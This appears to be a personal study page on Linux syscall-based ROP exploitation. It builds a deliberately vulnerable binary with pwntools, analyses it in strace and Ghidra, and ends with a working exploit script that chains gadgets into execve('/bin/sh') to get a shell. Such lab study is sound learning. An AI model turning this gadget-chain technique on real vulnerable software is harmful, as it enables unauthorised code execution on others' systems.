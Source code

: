 ```yaml
---
description: 09/22/2023
---
```


# Exploitation w/ Syscalls

## References

{% embed url="https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-syscall-execv" %}

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/syscalls/exploitation-with-syscalls" %}

**First, we'll create a file with Python/pwntools:**

```python
import os
from pwn import *


context.arch = 'amd64'
context.os = 'linux'

elf = ELF.from_assembly(
    '''
        mov rdi, 0;
        mov rsi, rsp;
        sub rsi, 8;
        mov rdx, 300;
        syscall;
        ret;
        
        pop rax;
        ret;
        pop rdi;
        ret;
        pop rsi;
        ret;
        pop rdx;
        ret;
    '''
)
elf.save('vuln')
os.system("chmod +x vuln")
```

It will first execute a `read()` syscall. This will read from a file descriptor (identifier for a file or other resource).

**We can see this with `strace`:**

```
strace ./vuln
execve("./vuln", ["./vuln"], 0x7ffd9782ca00 /* 22 vars */) = 0
read(0,
"\n", 300)
```

We can see `execve()` placing the value `0` into `RAX` (which the kernel checks), storing the value as a parameter (`0`) into `RDI` and calling `read()` or `0` which is the syscall number for `read()`.

## Analyzing Syscalls in Ghidra

Okay, so this was a little different.

We can see that the value, <mark style="color:yellow;">`0`</mark> <mark style="color:yellow;">is</mark> <mark style="color:yellow;">being moved onto the stack and being placed into the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`RDI`</mark> <mark style="color:yellow;">register</mark>.

This is our <mark style="color:yellow;">invoke of the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`read()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">syscall since</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`0`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">is our syscall number</mark>.

We then write the value `300` (had to convert this from `0x12C`) to the stack using `RDX`.

Lastly, we `ret`.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Ghidra Analysis</p></figcaption></figure>

**We can add `"/bin/sh"` by:**&#x20;

```
echo -en "/bin/sh\x00" >> vuln
```

**After that, we can get the gadget address using `strings`:**

```
strings -t x vuln | grep bin
   1238 /bin/sh
```

We see the offset from the base to the string is `0x1238`.

## Exploitation

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Arming ourselves with the following information will allow us to get a shell.

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

binsh = elf.address + 0x1238

POP_RAX = 0x10000018
POP_RDI = 0x1000001a
POP_RSI = 0x1000001c
POP_RDX = 0x1000001e
SYSCALL = 0x10000015

payload = flat(
    'A' * 8,
    POP_RAX,
    0x3b,
    POP_RDI,
    binsh,
    POP_RSI,
    0x0,
    POP_RDX,
    0X0,
    SYSCALL
)

p.sendline(payload)
p.interactive()
```

<mark style="color:red;">**Disclaimer**</mark>: Unfortunately and for the first time, I wasn't really fond of Ir0nstone's guide on this one, so I will be adding some more examples.

As a result, this is still a work in progress.
